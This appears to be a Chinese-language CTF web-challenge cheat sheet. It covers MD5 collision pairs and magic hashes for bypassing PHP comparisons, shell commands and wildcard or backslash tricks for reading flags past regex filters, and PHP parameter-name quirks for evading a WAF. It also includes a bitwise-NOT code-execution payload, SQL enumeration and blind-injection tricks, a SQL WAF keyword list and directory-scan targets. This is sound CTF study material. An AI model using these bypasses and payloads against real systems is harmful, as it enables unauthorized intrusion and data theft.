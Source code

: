 # MD5强比较
```
https://marc-stevens.nl/research/md5-1block-collision/

(URL编码)
a = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

md5 = 008ee33a9d58b51cfeb425b0959121c9
```
```
https://www.mscs.dal.ca/~selinger/md5collision/

(Raw Hex,需要->From Hex->URL编码)
a = d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70

b = d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70

md5 = 79054025255fb1a26e4bc422aef54eb4
```
或直接传入数组
弱比较：
QNKCDZO和s878926199a
# WebShell文件读取
ls bash tac nl more less head wget tail vi cat od grep sed bzmore bzless pcre paste diff file echo sh sort



Linux将反斜杠`\`视为换行符，于是可以在Shell任意添加反斜杠以绕过正则匹配（例如`l\s\ -la`）


POST传参传递`\xff`之类的字节时，选择`application/x-www-form-urlencoded`时，`HackBar`会报错`URI malformed`；选择`application/x-www-form-urlencoded(raw)`时，HTTP数据包最后的`\r`将会被后端识别为一个字符。

BurpSuite抓不到`localhost`，只能抓到`127.0.0.1`

# [suctf 2019]EasySQL
`show databases;`
`show tables;`
`show columns from Flag`

PHP的传参
`index.php?num=123`等价于`$_GET['num']`
`index.php? num=123`等价于`$_GET['num']`，可绕过WAF
`index.php?n um=123`等价于`$_GET['n_um']`
`index.php?num =123`等价于`$_GET['num_']`


scandir():列出参数目录中的文件和目录  
readfile():读取文件内容

Response Head、HTML注释都能藏东西

gopher|http|file|ftp|https|dict

备份文件`index.php.swp`


Shell绕过
eval()
取反，例如过滤`[A-Za-z0-9]+`，要执行`phpinfo()`，可以`(~%8F%97%8F%96%91%99%90)();`

防范措施
`php.ini`配置`disabled_functions`参数，禁止`exec()`、`eval()`等函数的运行

扫目录：flag.php robots.txt www.tar.gz login.php register.php config.php source.zip
[16:04:39] 200 - 174B - /.idea/misc.xml  
[16:04:39] 200 - 296B - /.idea/modules.xml  
[16:04:40] 200 - 19KB - /.idea/workspace.xml

Mysql更改数据库名、表名、列名的rename table语句，把flag表改为PHP要查的表，从而绕过select、union、and、or
tac命令可以后接通配符`?`，例如`tac /flag`可以写成`tac /fla?`，以绕过正则匹配

/search.php?id=elt(length(database())>1,6) 新型盲注，可以绕`^`

SQL的WAF：'blob', 'load_extension', 'char', 'unicode', '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp', 'in', 'limit', 'order', 'union', 'join'

show databases
show tables
show columns from 表名